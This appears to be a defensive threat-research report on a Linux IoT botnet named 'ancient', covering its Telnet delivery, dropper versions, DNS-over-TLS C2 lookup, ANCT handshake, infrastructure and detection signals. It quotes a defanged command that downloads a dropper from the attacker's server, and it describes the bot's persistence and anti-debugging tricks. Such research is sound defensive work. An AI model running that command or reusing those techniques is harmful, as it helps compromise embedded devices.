

# "Ancient": a Linux IoT botnet with a custom `ANCT` C2 protocol

**KSI Digital threat research | first published 2026-10-05**

We captured a botnet family that calls itself **"ancient"** in our SSH/Telnet honeypot. Between 2026-10-04 and 2026-10-05 we observed its delivery chain, three iterations of its dropper, and its C2 behaviour. We confirmed its C2 server live. We have not found a public write-up of this family, its markers, or its `ANCT` protocol tag. Several feeds currently tag its binaries as generic "Mirai", but its C2 protocol is not Mirai's.

All indicators are in [`iocs.csv`](iocs.csv). The three dropper versions are in [`dropper/`](dropper/), **defanged**: every line is commented out and network indicators are rewritten (`hxxp`, `[.]`). Bot binaries are not published here; use the SHA-256 hashes to retrieve them from your usual sample sharing platforms.

## Summary

|  |  |
| --- | --- |
| Self-name | `ancient` (file `.ancient`, markers `ANCIENT_*`, protocol tag `ANCT`) |
| Delivery | Telnet login by an already-infected device, then `wget` of a shell dropper |
| Payload server | `89.163.157[.]131:8080` (AS24961, myLoc / WIIT AG, DE): `persist.sh` + 13 architecture builds |
| C2 lookup | `zyrec2.duckdns[.]org` via **DNS-over-TLS** to `1.1.1.1:853`, plain DNS as fallback |
| C2 | `89.163.157[.]131:35342/tcp`, same host as the payload server; confirmed live 2026-10-05 02:01-02:11 UTC |
| Protocol | client sends `ANCT`, then 32 bytes (consistent with a key exchange); server answers 36 bytes; encrypted afterwards |
| Evasion | stays dormant while traced (`ptrace`); C2 lookup hidden inside TLS |
| Persistence | cron every 5 min, `rc.local`, `/etc/init.d/.ancient`, `/etc/profile.d/.ancient.sh` (v3) |

## Infection chain



## Timeline (UTC)

| Time | Event |
| --- | --- |
| 2026-10-04 15:37 | `94.154.43[.]138` logs in over Telnet; fetches `persist.sh` v1 and the x86-64 bot `6c44cbf5...` |
| 2026-10-04 (afternoon) | v2 of `persist.sh` served (duplicate-instance guard) |
| 2026-10-04 19:09 | v3 served (durable-mount selection, port byte-order fix); x86-64 rebuild `748f50d4...` |
| 2026-10-05 01:09 | Sandbox, traced: no network until the tracer detaches |
| 2026-10-05 01:36 | Sandbox, untraced: `zyrec2.duckdns[.]org` resolved via DoT; 33 blocked attempts to `:35342` |
| 2026-10-05 ~01:50 | C2 `89.163.157[.]131:35342` reported to ThreatFox; IP to Spamhaus |
| 2026-10-05 02:01-02:11 | Controlled 10-minute contact: `ANCT` handshake completed, C2 confirmed live |
| 2026-10-05 | Hosting provider notified; this write-up published |
| 2026-10-05 12:58 | `94.154.43[.]196` runs the same Telnet loader routine and delivers a Mirai kit (see section 5) |

## 1. Delivery

On 2026-10-04 at 15:37:39 UTC an infected device, `94.154.43[.]138`, logged in to our Telnet honeypot and ran:

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget hxxp://89.163.157[.]131:8080/persist.sh ...
```

Over the next four hours we logged 34 commands and downloads from that same device. It fetched three different versions of `persist.sh` and two builds of the x86-64 bot (`/x86_64`).

## 2. The dropper (`persist.sh`) and how it evolved

The script opens with `# ancient telnet persistence payload - PURE ASCII ONLY`, with a note that old BusyBox shells mishandle multi-byte UTF-8. It maps `uname -m` to one of 13 builds (`arm4`-`arm8`, `mips`, `mpsl`, `x86`, `x86_64`, `m68k`, `ppc`, `sh4`). It then tries `wget`, `busybox wget`, `curl`, `busybox curl` and `toybox wget` in turn. It saves the result as a hidden `.ancient` file, accepts it only if larger than 100 KB, launches it detached (`setsid` or `nohup`), and adds persistence. Finally it reports one of `ANCIENT_STARTED`, `ANCIENT_NOCONN`, `ANCIENT_SKIP` or `ANCIENT_FAIL` back to the loader.

| Version | SHA-256 | Change |
| --- | --- | --- |
| v1 (2802 B) | `5e6c8302...be76c8` | install to the first writable dir; cron + rc.local + init.d |
| v2 (3380 B) | `659742f1...f23d6bea` | refuses to start a second copy ("make the C2 thrash closing same-IP connections") |
| v3 (5952 B) | `ac62a1df...aed4b592f` | scores `/proc/mounts` to pick a reboot-durable filesystem; adds `/etc/crontab`, `/var/spool/cron/root`, `profile.d`; **fixes a byte-order bug** |

The byte-order fix shows the authors are testing against real devices. After launch, every version checks `/proc/net/tcp` for an open connection on the C2 port 35342 (`0x8A0E`). v1 and v2 searched for `:0E8A`. That's wrong: the kernel prints ports in host order, so these versions always reported `ANCIENT_NOCONN`. v3 searches for `:8A0E` and explains the fix in a comment. v3 also cites a "reference TELNET_PERSIST_PAYLOAD.sh" for its directory-scoring logic.

## 3. C2 discovery and anti-analysis

We ran the x86-64 build (`6c44cbf5...`) in an isolated sandbox whose router logs all traffic and blocks everything not explicitly allowed.

- **Traced runs** (strace, 10-25 min): no network activity until the tracer detached at the end of the run. The bot appears to stay idle while being ptraced.
- **Untraced run**, with only Cloudflare DoT (`1.1.1.1:853`) allowed: the bot immediately resolved `zyrec2.duckdns[.]org`. It made 32 DoT connections plus 6 plain-DNS queries for the same name, then made 33 connection attempts to `89.163.157[.]131:35342`. The router blocked them all.

Resolving the C2 name over DNS-over-TLS hides it from network monitoring that relies on port-53 DNS logs. A resolver sinkhole or a DNS log will only show a TLS session to a public resolver.

## 4. The `ANCT` protocol

With the C2 port additionally allowed for 10 minutes (2026-10-05 02:01-02:11 UTC; all other destinations still blocked):

```
bot -> C2   4 B   41 4E 43 54   "ANCT"
bot -> C2  32 B   high-entropy  (consistent with an ephemeral public key)
C2  -> bot 36 B   high-entropy  (32 B + 4 B)
bot -> C2  ...    encrypted stream
```

The server completed the handshake and kept the session open for the full 10 minutes, which confirms a live C2. During that window it sent nothing beyond its 36-byte reply, so no tasking was observed. The bot uploaded about **1.79 MB** in 2,785 packets (mostly 734-byte segments); the content is encrypted and unknown. `ANCT` reads as an abbreviation of "ANCienT", matching the dropper's naming.

## 5. Delivery infrastructure

*Added 2026-10-05.*

The device that delivered Ancient, `94.154.43[.]138`, ran a short Telnet routine before fetching the dropper. It opens two connections at once and drops one, logs in as root with an empty password, then runs `/bin/busybox TEST`, `cat /proc` and `./` about a second apart. We looked for that sequence in three days of honeypot data (163 addresses that logged in over Telnet). Only three addresses used it:

| Address | Network | First command | What followed |
| --- | --- | --- | --- |
| `94.154.43[.]138` | AS219502 | `echo ancient_telnet_ok` | Ancient `persist.sh` from `89.163.157[.]131` (2026-10-04) |
| `94.154.43[.]196` | AS219502 | `echo SHELL_TEST` | a Mirai kit (`kla.sh` plus 9 builds) from `176.65.139[.]196` (2026-10-05) |
| `77.239.124[.]121` | AS198364 | `echo SHELL_TEST` | nothing; three probe-only visits (2026-10-04 and 10-05) |

It looks like a generic loader routine whose first line was changed to `ancient_telnet_ok` for this campaign.

Both 94.154.43.0/24 and 176.65.139.0/24 are announced by AS219502 (STORMCLOUD-AS, Storm Industries LLC). RIPE registered that AS on 2026-06-09. It announces five /24s and started announcing these two in June and July 2026. `176.65.139[.]196` is both the Mirai kit's payload server and its C2 (`176.65.139[.]196:18129`, on ThreatFox since 2026-10-01). Ancient's own payload server and C2 are not on this network; they sit at myLoc (AS24961).

What this shows: the same loader tooling, run from the same small network, delivered Ancient and an unrelated Mirai kit a day apart. That fits one operator running both, or a shared loader service with several customers. We can't tell which from our data.

## 6. Detection ideas

Ready-to-use rules are in [`detection/`](detection/): a YARA rule for the dropper (tested, no false positives across ~500 honeypot samples), Suricata rules for the `ANCT` handshake and the C2/payload endpoints, and a Sigma rule for the host persistence artifacts. The signals those rules encode:

- Outbound TCP whose first 4 payload bytes are `ANCT`, especially to port 35342.
- IoT or embedded devices making DNS-over-TLS (`:853`) connections to public resolvers.
- Files named `.ancient` anywhere, `/etc/init.d/.ancient`, `/etc/profile.d/.ancient.sh`, and cron lines `*/5 * * * * <path>/.ancient`.
- The strings `ANCIENT_STARTED` / `ANCIENT_NOCONN` / `ANCIENT_SKIP` / `ANCIENT_FAIL` in Telnet session output.

## 7. Open questions

- The key exchange and cipher behind the `ANCT` handshake.
- What the bot uploads (about 1.8 MB in 10 minutes with no instructions from the server).
- The relation between this campaign and the older use of `zyrec2.duckdns[.]org`, which ThreatFox lists as a Mirai C2 since 2026-06.
- Whether the Telnet loader routine in section 5 is one operator's tool or a service shared by several botnets.

## MITRE ATT&CK

T1105 Ingress Tool Transfer | T1053.003 Cron | T1037.004 RC Scripts | T1546.004 Unix Shell Configuration Modification | T1564.001 Hidden Files | T1071.004 Application Layer Protocol: DNS | T1573 Encrypted Channel | T1622 Debugger Evasion

## Reporting status

- ThreatFox: `89.163.157[.]131:35342` (KSI Digital, 2026-10-05). Domain previously listed: ThreatFox 1822702.
- URLhaus: payload URLs 3928556, 3928557, 3927883.
- Spamhaus: `89.163.157[.]131` reported 2026-10-05.
- Hosting provider (myLoc / WIIT AG): notified via its abuse contact on 2026-10-05.
- Malpedia: family entry [`elf.ancient`](https://malpedia.caad.fkie.fraunhofer.de/details/elf.ancient) (added 2026-10-06).

## Method and handling

Samples were captured by a Cowrie honeypot and analysed in an isolated Hyper-V lab. The lab's egress is fail-closed through a WireGuard tunnel, and only the destinations listed above were reachable during each run. The C2 was contacted once, for 10 minutes, solely to confirm it was live. Nothing was sent to it other than what the bot itself sent.

Contact: christophe@ksi-digital.com | abuse.ch `@ksi_digital`

Content licensed [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/).
